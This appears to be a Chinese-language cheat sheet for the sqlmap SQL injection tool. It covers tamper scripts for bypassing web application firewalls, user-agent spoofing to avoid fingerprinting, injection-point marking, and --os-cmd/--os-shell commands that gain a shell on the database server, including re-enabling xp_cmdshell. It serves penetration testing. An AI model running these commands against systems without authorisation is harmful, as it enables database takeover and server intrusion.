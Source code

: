 ### 简介

|名称|描述|
|:-------------:|--|
|[sqlmap](https://github.com/sqlmapproject/sqlmap)| Automatic SQL injection and database takeover tool|

### tamper详解

tampers是sqlmap自带的绕过WAF的脚本，可查看所有tampers:

`python sqlmap.py --list-tampers`

2019.2.15 我更新并总结了 [tamper脚本分类汇总 sqlmap_tamper.csv](files/sqlmap_tamper.csv) 

可根据实际情况中的 数据库类型 选择合适的tamper(或自写脚本)实现绕过WAF进行SQL注入

### 常用参数 - 强制ssl

待测网站通常是https协议 

可能出现404`[CRITICAL] page not found (404)`

加上参数即可`--force-ssl`

（在Host头最后加上`:443`这种办法一般可行但有局限性，实测中有8443端口的https无法用该方法解决）


### 常用参数 - 加快测试速度

指定数据库类型
```
--dbms Oracle
--dbms Mysql
--dbms "Microsoft Access"
```

### 常用参数 - 设置proxy代理流量

格式为：`(http|https|socks4|socks5)://address:port`

如
```
--proxy=socks5://127.0.0.1:1080
```

### 常用参数 - 设置user-agent避免指纹

随机user-agent
```
 --random-agent
```

安卓手机user-agent
```
--user-agent "Mozilla/5.0 (Linux; U; Android 2.2; en-us; Droid Build/FRG22D) AppleWebKit/533.1 (KHTML, like Gecko) Version/4.0 Mobile Safari/533.1"
```

### 常用参数 - 读取HTTP request文本

sqlmap `-r reqfile.txt` 会自动分析该请求包（如cookie，POST数据 等），可充分测试各处，避免用命令行设置User-Agent等参数

`reqfile.txt`的格式：
```
POST /vuln.php HTTP/1.1
Host: www.target.com
User-Agent: Mozilla/4.0

id=1
```

### 常用参数 - 用*标记注入点

针对情况：伪静态 等不识别的格式

```
sqlmap -u xxx.com/index.php/Index/view/id/40*.html --dbs
```

-r 也是在请求包文件中的参数值后面加*号

### 参数 - OS命令执行

前提1：数据库为MySQL/PostgreSQL/Microsoft SQL Server

前提2：当前用户有权限使用特定的函数. 在sqlmap中查看权限用 `--privileg`

--os-shell=whoami
```
#--os-cmd=执行系统命令
sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --os-cmd=whoami 
```

--os-shell
```
sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --os-shell #交互式shell
```

实现原理：

在MySQL、PostgreSQL: sqlmap上传一个二进制库，包含用户自定义的函数sys_exec()和sys_eval() 创建的这两个函数可以执行系统命令。

在Microsoft SQL Server: sqlmap将会使用xp_cmdshell存储过程，如果被禁（在Microsoft SQL Server 2005及以上版本默认禁制），sqlmap会重新启用它，如果不存在，会自动创建。
